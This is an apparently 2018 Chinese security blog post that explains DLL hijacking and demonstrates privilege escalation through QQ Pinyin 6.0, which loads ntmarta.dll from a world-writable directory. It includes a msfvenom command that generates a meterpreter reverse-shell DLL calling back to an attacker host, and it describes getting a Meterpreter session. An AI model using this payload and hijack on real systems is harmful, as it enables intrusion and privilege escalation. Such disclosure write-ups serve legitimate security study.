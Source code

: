```yaml
---
categories: 内网渗透
date: "2018-06-09T00:00:00Z"
description: QQ拼音输入法6.0最新版DLL劫持 - 可利用于提权
title: QQ拼音输入法6.0最新版DLL劫持 - 可利用于提权
url: /archivers/2018-06-09/1
---
```



## 0x00 DLL劫持简介

《DLL劫持》技术当一个可执行文件运行时，Windows加载器将可执行模块映射到进程的地址空间中，加载器分析可执行模块的输入表，并设法找出任何需要的DLL，并将它们映射到进程的地址空间中。 -- 百度百科


## 0x01 应用程序寻找DLL的过程

* 1.程序所在目录
* 2.系统目录即 SYSTEM32 目录
* 3.16位系统目录即 SYSTEM 目录
* 4.Windows目录
* 5.加载 DLL 时所在的当前目录
* 6.PATH环境变量中列出的目录

首先如果在程序所在目录下未寻找到DLL，一般会在SYSTEM32目录下寻找到，那么可能会存在DLL劫持，要看注册表

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`

Windows操作系统通过“DLL路径搜索目录顺序”和“KnownDLLs注册表项”的机制来确定应用程序所要调用的DLL的路径，之后，应用程序就将DLL载入了自己的内存空间，执行相应的函数功能。

## 0x02 寻找过程

Process Monitor一款系统进程监视软件，总体来说，Process Monitor相当于Filemon+Regmon，其中的Filemon专门用来监视系统 中的任何文件操作过程，而Regmon用来监视注册表的读写操作过程。 有了Process Monitor，使用者就可以对系统中的任何文件和 注册表操作同时进行监视和记录，通过注册表和文件读写的变化， 对于帮助诊断系统故障或是发现恶意软件、病毒或木马来说，非常 有用。 这是一个高级的 Windows 系统和应用程序监视工具，由优秀的 Sysinternals 开发，并且目前已并入微软旗下，可靠性自不用说。


通过Process Monitor找出一些可能容易被劫持的DLL，特征一般如下：

![0x01](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-06-09/0x01.jpg)

* ntmarta.dll(直接调用)
* profapi.dll（需要点击“配置”）

这两个都不在KnownDLLs中，由于开发人员调用这两个DLL的时候没有定义绝对路径，导致DLL搜索，我们可以直接在搜索到system32之前，放入我们要劫持的DLL。

权限问题：

如果要劫持的DLL目录被操作系统限制了必须以管理员权限才可以读写，那么我们无法利用，本文演示从低权限到高权限的DLL劫持提权。

![0x02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-06-09/0x02.jpg)

那么这个漏洞刚刚好也符合我们的案例：C:\Program Files (x86)\Tencent\QQPinyin\6.0.5005.400

这个目录是任何人都可以读写的，使用MSF生成DLL：

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.211.55.19 LPORT=4478 -f dll > ntmarta.dll`

接下来通过任意途径，将dll copy到`C:\Program Files (x86)\Tencent\QQPinyin\6.0.5005.400`路径下即可

MSF配置如下：

![0x03](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-06-09/0x03.jpg)

当用户使用输入法的时候、或者重启PC的时候，或者切换输入法的时候，都将会触发，我们可以获得一个Meterpreter会话。

![0x04](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-06-09/0x04.jpg)

## 0x03 视频演示

<video src="https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-06-09/QQPINYIN.mp4" controls="controls" width="500px">
哎呀~ 换个浏览器试试吧！
</video>